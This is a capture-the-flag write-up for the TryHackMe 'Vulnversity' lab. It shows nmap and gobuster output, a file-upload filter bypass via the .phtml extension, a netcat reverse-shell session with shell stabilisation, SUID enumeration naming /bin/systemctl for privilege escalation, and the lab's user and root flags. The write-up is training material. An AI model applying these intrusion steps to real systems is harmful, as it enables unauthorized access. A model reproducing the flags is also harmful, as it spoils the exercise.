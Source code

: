 # This is my writeup for the Try_Hack_Me box - Vulnversity

The box showcases web exploitation and set uid priv escalation.\
The box is now taken of the website. But still worth it.
 
> Pratyush Prakhar (5#1NC#4N) - 11/01/2020


## RECONNAISSANCE

1. Scan the box, how many ports are open?- **6**
	
	1. Ran a quick scan for all ports

	**Output**

	```bash
	sudo nmap -p- -vv 10.10.237.128
	Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-01 22:50 EST
	Initiating Ping Scan at 22:50                                                                                                                                         ............                                                                                                          
	Initiating SYN Stealth Scan at 22:50
	Scanning 10.10.237.128 [65535 ports]
	Discovered open port 22/tcp on 10.10.237.128
	Discovered open port 21/tcp on 10.10.237.128
	Discovered open port 445/tcp on 10.10.237.128
	Discovered open port 139/tcp on 10.10.237.128
	Discovered open port 3333/tcp on 10.10.237.128
	SYN Stealth Scan Timing: About 4.77% done; ETC: 23:01 (0:10:19 remaining)
	.......
	SYN Stealth Scan Timing: About 77.43% done; ETC: 23:03 (0:02:58 remaining)
	Discovered open port 3128/tcp on 10.10.237.128
	SYN Stealth Scan Timing: About 82.85% done; ETC: 23:03 (0:02:17 remaining)           
	```

	2. Then ran a standard scan for the specific ports found - **21,22,139,445,3128,3333**

	**Output**

	```bash
	sudo nmap -vv -sC -sV -p21,22,139,445,3128,3333 10.10.237.128
	Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-01 23:03 EST
	NSE: Loaded 153 scripts for scanning.
	.........
	Initiating SYN Stealth Scan at 23:03
	Scanning 10.10.237.128 [6 ports]
	Discovered open port 3128/tcp on 10.10.237.128
	Discovered open port 22/tcp on 10.10.237.128
	Discovered open port 445/tcp on 10.10.237.128
	Discovered open port 21/tcp on 10.10.237.128
	Discovered open port 139/tcp on 10.10.237.128
	Discovered open port 3333/tcp on 10.10.237.128
	Completed SYN Stealth Scan at 23:03, 0.24s elapsed (6 total ports)
	Initiating Service scan at 23:03
	Scanning 6 services on 10.10.237.128
	Completed Service scan at 23:03, 22.30s elapsed (6 services on 1 host)
	NSE: Script scanning 10.10.237.128.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 5.94s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 1.21s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 0.01s elapsed
	Nmap scan report for 10.10.237.128
	Host is up, received reset ttl 61 (0.17s latency).
	Scanned at 2020-11-01 23:03:20 EST for 30s
	PORT     STATE SERVICE     REASON         VERSION                                                                                                                                                               
	21/tcp   open  ftp         syn-ack ttl 61 vsftpd 3.0.3
	22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5	
	/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
	|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
	|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
	139/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
	3128/tcp open  http-proxy  syn-ack ttl 61 Squid http proxy 3.5.12
	|_http-server-header: squid/3.5.12
	|_http-title: ERROR: The requested URL could not be retrieved
	3333/tcp open  http        syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
	| http-methods:
	|_  Supported Methods: OPTIONS GET HEAD POST
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Vuln University
	Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	Host script results:
	|_clock-skew: mean: 1h39m57s, deviation: 2h53m12s, median: -3s
	| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
	| Names:
	|   VULNUNIVERSITY<00>   Flags: <unique><active>
	|   VULNUNIVERSITY<03>   Flags: <unique><active>
	|   VULNUNIVERSITY<20>   Flags: <unique><active>
	|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
	|   WORKGROUP<00>        Flags: <group><active>
	|   WORKGROUP<1d>        Flags: <unique><active>
	|   WORKGROUP<1e>        Flags: <group><active>
	| Statistics:
	|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
	|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
	|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
	| p2p-conficker: 
	|   Checking for Conficker.C or higher...
	|   Check 1 (port 14476/tcp): CLEAN (Couldn't connect)
	|   Check 2 (port 46485/tcp): CLEAN (Couldn't connect)
	|   Check 3 (port 37058/udp): CLEAN (Failed to receive data)
	|   Check 4 (port 47439/udp): CLEAN (Failed to receive data)
	|_  0/4 checks are positive: Host is CLEAN or ports are blocked
	| smb-os-discovery: 
	|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
	|   Computer name: vulnuniversity
	|   NetBIOS computer name: VULNUNIVERSITY\x00
	|   Domain name: \x00
	|   FQDN: vulnuniversity
	|_  System time: 2020-11-01T23:03:41-05:00
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	| smb2-time: 
	|   date: 2020-11-02T04:03:42
	|_  start_date: N/A
	```

	3. What version of the squid proxy is running on the machine? - **3.5.12**

	4. How many ports will nmap scan if the flag -p-400 was used? - Basically translates to -p1-400. - **400**

	5. Using the nmap flag -n what will it not resolve? - can be found in **man page of nmap** - **DNS**

	6. What is the most likely operating system this machine is running? - Leaked from the smb enum script - **Ubuntu**

	7. What port is the web server running on? - Service running on Apache Web Server - **3333**


## GOBUSTER
	
2. What is the directory that has an upload form page? - **/internal/** - Upload

**GOBUSTER OUTPUT**

```bash
gobuster dir -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u "http://10.10.237.128:3333"

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.237.128:3333
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/01 23:57:56 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
..........
===============================================================
2020/11/01 23:58:22 Finished
===============================================================
```

## Web Exploit

**Images**

1. What common extension seems to be blocked? - **.php**

3. What extension is allowed? - **.phtml**

4. Stabilizing shell

**Output**

```bash
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ nc -lnvvp 8888
listening on [any] 8888 ...
connect to [10.2.44.183] from (UNKNOWN) [10.10.25.49] 44380
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
01:32:54 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ ^Z
[1]+  Stopped                 nc -lnvvp 8888
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ stty raw -echo
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ nc -lnvvp 8888
                                                                                                                                                                                                                
www-data@vulnuniversity:/$ l                                   
```

5. What is the name of the user who manages the webserver? - **bill**

```bash
www-data@vulnuniversity:/home$ ls
bill
```

6. What is the user flag? - **8bd7992fbe8a6ad22a63361004cfcedb**

```bash
www-data@vulnuniversity:/home/bill$ ls
user.txt
www-data@vulnuniversity:/home/bill$ cat user.txt 
8bd7992fbe8a6ad22a63361004cfcedb
```

## Privilege Escalation

**LINPEAS OUTPUT**
```bash
====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root   root        44K May  7  2014 /bin/ping6
.......
-rwsr-xr-x 1 root   root        23K Jan 15  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-sr-x 1 root   root        97K Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root       419K Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root       645K Feb 13  2019 /bin/systemctl
```

1. On the system, search for all SUID files. What file stands out? - **/bin/systemctl**

2. What is the root flag? - **a58ff8579f0a9270368d33a9966c7fd5**


**Stay Tuned On**\
[Github](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)